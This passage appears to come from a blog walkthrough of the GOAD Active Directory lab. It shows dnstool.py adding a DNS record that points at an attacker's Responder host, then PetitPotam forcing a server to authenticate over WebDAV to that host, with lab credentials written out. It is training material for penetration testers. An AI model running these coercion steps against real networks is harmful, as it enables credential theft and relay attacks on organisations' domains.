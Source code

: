- now we will go on our responder CT to get the webdav coerce

- Once the webclient started we can add a dns entry to our responder ip with [dnstools](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py):

```bash
dnstool.py -u 'north.sevenkingdoms.local\arya.stark' -p Needle --record 'responder' --action add --data 10.10.10.6 192.168.10.11
```

![part13_add_dns_entry.png](/assets/blog/GOAD/part13_add_dns_entry.png)

- Now if we are in the same network we can try directly or if we are in another network we will have to wait for the dns.

- Next we use petitpotam on the server with webdav enabled to force a webdav (**http**) coerce to our server :

```bash
petitpotam.py -u 'arya.stark' -p Needle -d 'north.sevenkingdoms.local' "responder@80/random.txt" 192.168.10.23
```

![part13_webdav_responder.png](/assets/blog/GOAD/part13_webdav_responder.png)

- Another way to do if the victim can resolve your netbios name you will not have to add a dns entry an you can use the netbios name given by responder

![part13_webdav_respondernetbios.png](/assets/blog/GOAD/part13_webdav_respondernetbios.png)
